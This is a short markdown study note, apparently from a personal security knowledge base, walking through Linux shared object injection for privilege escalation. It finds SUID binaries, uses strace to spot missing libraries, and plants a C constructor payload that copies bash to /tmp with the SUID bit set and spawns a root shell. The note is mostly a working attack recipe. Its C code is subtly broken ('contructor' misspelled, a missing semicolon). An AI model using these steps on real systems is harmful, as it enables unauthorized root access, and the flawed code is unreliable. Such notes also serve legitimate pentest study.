 ```yaml
---
aliases:
  - Linux Shared Object Injection
tags:
  - tech
  - cybsec
  - linux
  - privilege_escalation
  - privesc
  - suid
  - set_user_id
author: Mehdi N Tehrani
creat_date: 2023-12-17
category: Cyber Security
subcategory: Linux Security
---
```

# 1. Find a file where SUID is set
```
find /  -type f -perm -04000 -ls 2>/dev/null
                      ^ all of the permission bits mode are set
```
# 2. Is file vulnerable to so-injection
```
strace <file> 2>&1 | grep -iE 'open|access|no such file'
```
And also find the path of files which the executable is dependent on but missing
# 3. build c code to exploit
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((contructor));

void inject(){
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p")
}
```

[linux.die.net](https://linux.die.net/man/1/bash)
- **bash -p** 
	- Turn on privileged mode. In this mode, the $ENV and $BASH_ENV files are not processed, shell functions are not inherited from the environment, and the SHELLOPTS, BASHOPTS, CDPATH, and GLOBIGNORE variables, if they appear in the environment, are ignored. If the shell is started with the effective user (group) id not equal to the real user (group) id, and the -p option is not supplied, these actions are taken and the effective user id is set to the real user id. If the -p option is supplied at startup, the effective user id is not reset. Turning this option off causes the effective user and group ids to be set to the real user and group ids.

# 4. compile and move to path
```
gcc -shared -fPIC -o <out_file> <in_file.c>
```
move the shared object to the path found in step 2

# 5.  run the file with dependency on this so file
run the executable and this should result in a bash with root permissions

